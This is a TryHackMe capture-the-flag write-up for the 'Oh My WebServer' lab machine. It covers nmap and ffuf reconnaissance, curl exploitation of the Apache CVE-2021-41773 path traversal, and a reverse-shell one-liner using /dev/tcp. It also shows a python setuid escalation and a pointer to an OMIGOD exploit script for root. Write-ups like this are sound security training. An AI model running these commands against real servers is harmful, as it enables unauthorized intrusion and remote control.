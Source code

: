 ```yaml
---
title: THM - Oh My WebServer
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: "/img/thm/ohmywebserver/banner.png"
alt: "tryhackme"
---
```


![banner](/img/thm/ohmywebserver/banner.png) 
</p>
<hr>

# Recon
Let's start with a classic Nmap scan against the machine to see what services are running!

* -sC - Default Nmap scripts
* -sV - Services version
* -oA - Save output to a file
* -v  - Verbose mode

(This screenshot has another command because I typed it just for pic)

![nmap](/img/thm/ohmywebserver/nmap.png)

Ok, we have two open ports, 80 port is running `Apache 2.4.49` and 22 port running a SSH. Can we access this webpage to see what we have.

![consult](/img/thm/ohmywebserver/consult.png)

Cool, just a web application. I didn't find anything interesting, so let's start a directory enumeration.

`ffuf -u http://10.10.148.87/FUZZ -w /path/to/wordlist -t 90 -c`

* -u - Target URL
* -w - Wordlist file path
* -t - Number of concurrent threads
* -c - Colorize output

![ffuf](/img/thm/ohmywebserver/ffuf.png)

Here we find two somewhat interesting directories: `assets` and `cgi-bin`

![assets](/img/thm/ohmywebserver/assets.png)

Ok, I didn't find anything here too.

![cgi-bin](/img/thm/ohmywebserver/cgi-bin.png)

## Reverse shell

Alright, we have a cgi-bin, and coming back to Apache version I found something a lot interesting. For that apache version we have a `CVE-2021-41773`. Can we confirm it with a cURL command.
Just sending a request with a linux command can we check it.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'Content-Type: text/plain; echo; whoami && id'`

![curl-first-command](/img/thm/ohmywebserver/curl_first_command.png)

BOOMM! We have a path traversal, and we are able to execute commands, so let's get a reverse shell with this. To do this we'll need two terminals, one for send request and another to wait a connection.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d "Content-Type: text/plain; echo; bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT/ <&1'"`

![reverse-shell](/img/thm/ohmywebserver/reverse_shell.png)

## User

Ok, we have a reverse shell and access to the machine, but there's no home user here

![no-user](/img/thm/ohmywebserver/no-user.png)

It took me a while to enumerate this machine, so I decided to use linPEAS. So by uploading the script and running I found something interesting

![linpeas](/img/thm/ohmywebserver/linpeas.png)

We can set UID with python command.

`python3 -c 'import so; os.setuid(0); os.system("/bin/bash")'`

![setuid](/img/thm/ohmywebserver/user.png)

## Root

After enumerating, I took a another look to linPEAS output and found something else: we have another IP address. So we can enumerate this IP with Nmap. Can you download nmap binary from [here](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64). Just upload as linPEAS.

`nmap -v 172.17.0.0-5`

This will scan IP from 0 to 5, and checking the output we can note that 172.17.0.1 host is up. 

![nmap_ntw](/img/thm/ohmywebserver/nmap_ntw.png)

Enumerating it better we find another two open ports: `5985` and `5986`.

![nmap_nports](/img/thm/ohmywebserver/nmap_nports.png) 

Ok, we have another CVE: `CVE-2021-38647`. There's a script to exploit it, you can find it [here](https://github.com/AlteredSecurity/CVE-2021-38647). We'll use the python script to escalete our privileges.

![omigod](/img/thm/ohmywebserver/omigod.png)

Just run it by passing the command as an argument.

![root](/img/thm/ohmywebserver/root.png)
